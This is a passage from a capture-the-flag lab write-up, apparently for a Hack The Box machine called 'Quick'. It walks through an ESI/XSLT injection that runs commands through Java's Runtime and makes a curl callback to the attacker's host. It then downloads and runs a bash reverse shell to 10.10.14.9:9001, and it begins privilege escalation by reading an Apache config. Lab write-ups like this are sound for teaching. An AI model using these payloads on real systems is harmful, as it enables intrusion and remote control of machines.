 ```
Host: 10.10.14.9
```

Now the _esi.xsl_ payload has to be hosted on our local client and I will change the command to use `curl` to test if command execution works:
```
touch test.xml
```
```
(...)
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.9/success]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
(...)
```

Starting a PHP web server and searching for the generated ticket number:
```
php -S 0.0.0.0:80

PHP 7.4.21 Development Server (http://0.0.0.0:80) started

10.10.10.186:54082 [200]: (null) http://10.10.14.9/esi.xsl
10.10.10.186:54084 [200]: (null) http://10.10.14.9/test.xml
10.10.10.186:54086 [404]: (null) /success - No such file or directory
```

There was a successful response and thus code execution works.
Lets modify _esi.xsl_ to download a reverse shell bash script and the execute it.

Creating the bash script:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1
```

Uploading the script to the box:
```
<xsl:variable name="cmd"><![CDATA[curl 10.10.14.9/shell -o /tmp/shell]]></xsl:variable>
```

Searching for the ticket number to upload it and then modifying the _esi.xsl_ payload again to execute the script:
```
<xsl:variable name="cmd"><![CDATA[bash /tmp/shell]]></xsl:variable>
```

After searching again for the ticket number, the bash script will be executed and the listener on my IP and port 9001 starts a reverse shell as the user _sam_.

## Privilege Escalation

When searching the box for useful information, there is another web service installed on _/var/www/printer/_.
The Apache configuration file _/etc/apache2/sites-available/000-default.conf_ shows where this site is used:
```
(...)
<VirtualHost *:80>
        AssignUserId srvadm srvadm
        ServerName printerv2.quick.htb
        DocumentRoot /var/www/printer
</VirtualHost>
```
